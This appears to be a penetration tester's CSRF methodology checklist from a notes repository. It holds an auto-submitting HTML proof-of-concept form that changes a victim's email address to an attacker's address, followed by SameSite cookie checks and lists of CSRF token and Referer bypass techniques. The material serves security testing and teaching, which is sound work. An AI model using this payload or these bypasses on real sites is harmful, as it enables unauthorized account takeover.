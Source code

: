 ## CSRF Methodology
<br/>

**General PoC**
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
<br/>
<br/>

**Step 1**<br/>
The first thing to check in a CSRF attack is the security headers on the session cookie.
- [ ] `SameSite=Strict` - CSRF Not Possible
- [ ] `SameSite=LAX` - CSRF Only Possible on GET Request
- [x] `SameSite=NONE` - CSRF Possible

<br/>
<br/>

**CSRF Token Bypasses**<br/>
- [ ] Change single character to check if CSRF token is being validated or not
- [ ] Change request method from POST to GET
- [ ] Remove value in CSRF token
- [ ] Remove CSRF token completely
- [ ] Send a valid CSRF token from other user

<br/>
<br/>

**Referer Bypasses**<br/>
- [ ] Check for bad regex
- [ ] Check for referer removed

